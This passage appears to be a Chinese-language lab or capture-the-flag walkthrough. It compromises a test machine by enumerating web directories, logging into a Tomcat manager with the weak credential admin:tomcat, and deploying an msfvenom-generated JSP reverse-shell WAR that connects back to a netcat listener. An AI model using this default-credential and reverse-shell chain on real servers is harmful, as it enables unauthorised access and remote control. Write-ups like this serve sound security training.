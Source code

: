 ```shell
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ dirsearch -u http://192.168.205.149
...
[05:41:20] 200 -    0B  - /config.php
[05:41:21] 200 -    0B  - /database.php
[05:41:32] 200 -    0B  - /upload.php
[05:41:32] 301 -  320B  - /uploads  ->  http://192.168.205.149/uploads/
[05:41:32] 200 -  408B  - /uploads/
...
```

目录爆破发现了一些有趣的PHP文件，如`config.php`、`database.php`和`upload.php`，但它们的大小都为0字节，表明是空文件。`/uploads/`目录虽然存在，但其中没有任何内容。80端口的渗透似乎陷入僵局。

## 2. 8080端口 - Tomcat服务

接着，我们访问 `http://192.168.205.149:8080`，页面显示这是`Tomcat/10.1.20`的管理界面。Tomcat的管理后台常常存在弱口令漏洞，我们尝试使用常见用户名和密码进行登录。

**弱口令尝试:**

*   `admin`
*   `manager`
*   `tomcat`
*   ...

最终，在访问 `http://192.168.205.149:8080/manager` 时，使用 `admin:tomcat` 成功登录到Tomcat Web应用程序管理器。

## 3. 获取WebShell

成功登录后台后，我们可以通过部署WAR文件来获取服务器的控制权。

首先，使用`msfvenom`生成一个Java的反向shell payload。

```shell
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.205.128 LPORT=8888 -f war -o shell.war
Payload size: 1090 bytes
Final size of war file: 1090 bytes
Saved as: shell.war
```

接着，在Tomcat后台的 "WAR file to deploy" 处上传我们生成的`shell.war`文件并部署。

![image-20250823174407373](http://7r1UMPHK.github.io/image/20250825140722701.webp)

同时，在Kali上使用`netcat`开启监听。

```shell
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nc -lvnp 8888
```

部署成功后，点击新应用程序的路径（例如 `/shell`）来触发payload。

```shell
listening on [any] 8888 ...
connect to [192.168.205.128] from (UNKNOWN) [192.168.205.149] 43420
id
uid=1001(tomcat) gid=998(tomcat) groups=998(tomcat)
```

